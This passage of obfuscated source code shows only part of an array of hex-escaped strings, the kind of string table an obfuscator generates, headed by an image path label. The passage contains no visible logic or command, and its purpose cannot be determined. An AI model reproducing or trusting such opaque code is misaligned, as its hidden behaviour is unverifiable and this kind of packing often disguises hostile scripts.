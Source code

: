 x41\x76\x53\x70\x71\x4a\x79','\x44\x66\x6c\x64\x50\x38\x6b\x47\x57\x36\x6d','\x57\x35\x6e\x43\x57\x4f\x2f\x64\x55\x77\x69','\x44\x75\x31\x66\x43\x30\x43','\x72\x30\x35\x6c\x73\x4c\x71','\x57\x4f\x61\x48\x6c\x43\x6f\x65\x6a\x61','\x41\x4d\x46\x64\x47\x43\x6f\x4a\x57\x50\x4b','\x43\x30\x52\x63\x55\x76\x57\x6a','\x78\x32\x66\x59\x44\x67\x4c\x4a\x42\x67\x76\x46\x41\x71','\x76\x31\x6d\x51\x43\x63\x65','\x57\x36\x69\x4b\x6e\x66\x39\x57','\x57\x36\x64\x63\x54\x4b\x75\x31\x57\x51\x4b','\x44\x4b\x6a\x4b\x76\x31\x4b','\x72\x77\x39\x55\x76\x31\x79','\x67\x53\x6f\x6d\x57\x51\x74\x63\x52\x38\x6f\x5a\x57\x34\x43\x75\x57\x52\x4e\x64\x48\x6d\x6b\x36','\x77\x4b\x72\x54\x44\x32\x75','\x41\x77\x35\x4b\x7a\x78\x48\x70\x7a\x47','\x57\x51\x70\x64\x47\x43\x6b\x35\x71\x33\x47','\x74\x76\x4c\x75\x75\x4b\x43','\x42\x59\x2f\x64\x4d\x6d\x6b\x68\x45\x57','\x42\x4b\x53\x37\x71\x67\x52\x63\x52\x38\x6b\x68\x57\x35\x4b','\x57\x50\x46\x63\x51\x53\x6f\x54\x57\x4f\x64\x64\x49\x61','\x74\x76\x4c\x51\x41\x4e\x75','\x35\x50\x67\x6d\x35\x6c\x59\x2f\x35\x4f\x4d\x36\x35\x79\x51\x46','\x57\x37\x78\x63\x47\x4e\x61\x6a\x57\x50\x30','\x7a\x4e\x6a\x56\x42\x71','\x42\x75\x58\x4d\x74\x4e\x47','\x67\x43\